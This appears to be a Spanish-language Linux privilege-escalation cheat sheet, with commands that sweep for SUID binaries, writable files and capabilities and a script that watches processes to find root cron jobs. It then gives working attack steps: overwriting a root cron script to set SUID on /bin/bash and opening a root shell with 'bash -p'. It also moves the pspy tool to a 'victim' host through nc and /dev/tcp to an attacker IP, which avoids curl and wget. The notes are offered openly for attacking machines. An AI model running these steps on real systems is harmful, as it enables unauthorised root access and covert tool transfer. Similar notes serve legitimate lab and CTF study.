 -- -- 
## Barridos a nivel de sistema
Comando utilizado para aplicar un barrido en el sistema y detectar binarios con el privilegio SUID.
```bash
find / -type f -perm /4000 -exec ls -l {} \; 2>/dev/null
```

Comando utilizado para aplicar un barrido en el sistema y ver que archivos tienen capacidad de escritura.
```bash
find / -writable 2>/dev/null
```

Comando utilizado para realizar una buscada en el sistema de capabilities asociadas a binarios.
```bash
getcap -r / 2>/dev/null
```

-- - 
## Deteccion y explotacion de tareas Cron

Script en bash para detectar que usuarios estan ejecutando comandos en el sistema:
```bash
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
        new_process=$(ps -eo user,command)
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon|command|kworker"
        old_process=$new_process
done
```

Si luego de ejecutar el anterior script descubrimos que el usuario root esta ejecutando un script mediante una tarea cron, podemos modificar el script y poner esto para escalar privilegios
```bash
#!/bin/bash 

sleep 2 
chmod u+s /bin/bash
```

Una vez hayamos modificado el script y se aplique el privilegio SUID, tenemos que abrir una bash "privilegiada"
```bash 
bash -p 
```

Tambien podriamos usar el script *pspy* para descubrir esto mismo. ---> https://github.com/DominicBreuker/pspy
Luego, para "adentrarlo" en la maquina victima lo podemos hacer de la siguiente manera (sin uso de curl, wget, etc)
```bash
# Atacante:
nc -nlvp 443 < pspy
md5sum pspy
# Victima 
cat < /dev/tcp/192.168.64.128/443 > pspy
md5sum pspy
# Si los 2 hashes son iguales es que el script fue transferido de forma exitosa.
```
-- - 


